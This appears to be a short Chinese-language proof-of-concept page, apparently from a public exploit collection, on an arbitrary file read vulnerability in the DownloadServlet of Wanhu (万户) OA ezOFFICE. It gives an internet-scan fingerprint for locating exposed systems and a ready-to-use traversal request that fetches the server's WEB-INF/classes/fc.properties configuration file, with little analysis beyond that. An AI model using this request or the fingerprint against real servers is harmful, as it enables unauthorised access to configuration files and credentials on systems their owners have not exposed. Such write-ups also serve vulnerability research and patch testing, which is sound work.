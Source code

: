 # 万户OA DownloadServlet 任意文件读取漏洞

## 漏洞描述

万户OA DownloadServlet接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的敏感文件，获取敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-2354324.png)

验证POC

```html
/defaultroot/DownloadServlet?modeType=0&key=x&path=..&FileName=WEB-INF/classes/fc.properties&name=x&encrypt=x&cd=&downloadAll=2 
```

![img](../../../.vuepress/public/img/1662082139955-1b99e2cd-bba3-4bba-9684-84b068a5c17a.png)